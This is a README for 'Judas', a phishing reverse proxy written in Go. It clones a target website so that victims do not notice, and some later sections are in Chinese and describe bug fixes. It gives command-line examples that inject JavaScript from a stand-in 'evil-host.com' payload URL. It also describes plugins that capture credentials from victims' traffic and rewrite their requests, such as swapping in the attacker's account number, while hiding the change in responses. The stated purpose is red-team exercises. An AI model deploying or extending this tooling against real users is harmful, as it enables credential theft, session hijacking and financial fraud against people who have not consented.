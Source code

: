 Judas
=====
Judas is a pluggable phishing proxy.
It can clone any website passed to it using command line flags, and you can extend it with Go plugins for fun and (legal) profit.
Judas is meant to be used in red team phishing exercises to phish victims without them being able to notice.
When combined with effective typosquatting, Judas is unstoppable.

```
Usage of judas:
    -address string
        Address and port to run proxy service on. Format address:port. (default "localhost:8080")
  -cookie-domain string
        set Cookies Domain
  -inject-js string
        URL to a JavaScript file you want injected.
  -inject-url string
        target URL to a JavaScript file you want injected. default * is all (default "*")
  -insecure
        Listen without TLS.
  -insecure-target
        Not verify SSL certificate from target host.
  -plugins string
        Colon separated file path to plugin binaries.
  -proxy string
        Optional upstream proxy. Useful for torification or debugging. Supports HTTPS and SOCKS5 based on the URL. For example, http://localhost:8080 or socks5://localhost:9150.
  -proxy-ca-cert string
        Proxy CA cert for signed requests
  -proxy-ca-key string
        Proxy CA key for signed requests
  -ssl-hostname string
        Hostname for SSL certificate
  -target string
        The website we want to phish.
  -with-profiler
        Attach profiler to instance.

```

Building
--------
To build `judas`, simply run `go build`.
 ```
 go build cmd/judas.go
 ```


Usage
-----
The target ```--target``` flag is required.
`judas` will use Let's Encrypt to automatically create SSL certificates for website, simply pass the `--ssl-hostname` flag.

Example:
```
./judas \
    --target https://target-url.com \
    --ssl-hostname phishingsite.com
```

If you want to listen using HTTP, pass the ```--insecure``` flag.

Example:
```
./judas \
    --target https://target-url.com \
    --insecure
```

If you want to accept self-signed SSL certificate from target host, pass the ```--insecure-target``` flag.
This is useful for passing it through an intercepting proxy like Burp Suite for debugging purposes.

Example:
```
./judas \
    --target https://target-url-with-self-signed-cert.com \
    --proxy http://localhost:8080 \
    --insecure-target
```


It can optionally use an upstream proxy with the ```--proxy``` argument to proxy Tor websites or hide the attack server from the target.
Judas supports SOCKS5 and HTTP proxies.
HTTP proxies must being with `http://` and socks5 proxies must begin with `socks5://`

Example:
```
./judas \
    --target https://torwebsite.onion \
    --ssl-hostname phishingsite.com \
    --proxy socks5://localhost:9150
```

By default, Judas listens on localhost:8080.
To change this, use the ```--address``` argument.

Example:
```
./judas \
    --target https://target-url.com \
    --ssl-hostname phishingsite.com \
    --address=0.0.0.0:8080
```

Judas can also inject custom JavaScript into requests by passing a URL to a JS file with the ```--inject-js``` argument.

Example:
```
./judas \
    --target https://target-url.com \
    --ssl-hostname phishingsite.com \
    --inject-js https://evil-host.com/payload.js
```
## 注入特定的 url
```shell

judas.go --target  https://target-url.com \
     --insecure --address=10.10.200.1:8080 \
     --inject-js= https://evil-host.com/payload.js \
     --inject-url="/index.php/Index/index"
```

Plugins
-------
Judas can be extended using [Go plugins](https://golang.org/pkg/plugin/). 
An `judas` plugin is a regular Go plugin with a function called `New` that implements `judas.InitializerFunc`.
You can use plugins to save request-response transactions to disk for further analysis, or pull credentials and sensitive information out of requests and responses on the fly.
Plugins run in their own goroutine and judas will recover from panics, so you don't need to worry too much about what you do in the plugins.
You should configure your plugins using [environment variables](https://golang.org/pkg/os/#Getenv).

```
// InitializerFunc is a go function that should be exported by a function package.
// It should be named "New".
// Your InitializerFunc should return an instance of your Listener with a reference to judas's logger for consistent logging.
type InitializerFunc func(*log.Logger) (Listener, error)
```

The `judas.Listener` interface has one method: `Listen`.

```
// Listener implementations will be given a stream of HTTPExchanges to let plugins capture valuable information out of request-response transactions.
type Listener interface {
	Listen(<-chan *HTTPExchange)
}
```

`Listen` implementations will receive a stream of  `judas.HTTPExchange`.
These contain the `judas.Request`, the payload and the `judas.Response`, along with the target.

```
// HTTPExchange contains the request sent by the user to us and the response received from the target server.
// Listeners can use this struct to pull information out of requests and responses.
type HTTPExchange struct {
	Request  *Request
	Response *Response
	Target   *url.URL
}
```

Plugins can also modify requests after they come from the victim and responses after they're returned from the server.
This is useful when you want to modify a request on the fly, like replacing an account number with yours.
To take advantage of this, simply create a custom `RequestTransformer` or `ResponseTransformer`.

```
// RequestTransformer modifies a request before it is sent to the target website.
// This can be used to hijack victim actions, like replacing an account number with ours.
// Delays in this function will slow down the phishing site for the victim.
// Your RequestTransformer should be a function called "RequestTransformer"
type RequestTransformer func(*http.Request) error

// ResponseTransformer modifies a response before it is returned to the victim.
// You can use ResponseTransformers to hide any visible results of a RequestTransformer.
// Delays in this function will slow down the phishing site for the victim.
// Your ResponseTransformer should be a function called "ResponseTransformer"
type ResponseTransformer func(*http.Response) error
```

You only have to implement the methods you're using.
You can put compiled plugins in a directory and pass them with the `--plugins` flag.
Plugins are colon separated file paths.

Example:
```
judas \
     --target https://www.target.com \
     --insecure \
     --address localhost:9000 \
     --proxy http://localhost:8080 \
     --insecure-target \
     --plugins ./searchloggingplugin.so:./linksloggingplugin.so
```

See [examples/searchloggingplugin/searchloggingplugin.go](https://github.com/JonCooperWorks/judas/tree/master/examples/searchloggingplugin/searchloggingplugin.go)

You can build a plugin using this command:
```
go build -buildmode=plugin examples/searchloggingplugin/searchloggingplugin.go
```

### 修复一些bug
** Location 跳转 和目标域名不同域名跳转不变。相同跳转到代理地址   
** 可选注入到特定 URL 中不区分大小写   
** 解决 cookie 跨域导致无法登录   
### 注意
1. 使用域名或者特定的IP 不要使 0.0.0.0 这类

##  待做功能
1. 域名绑定
支持多个目标
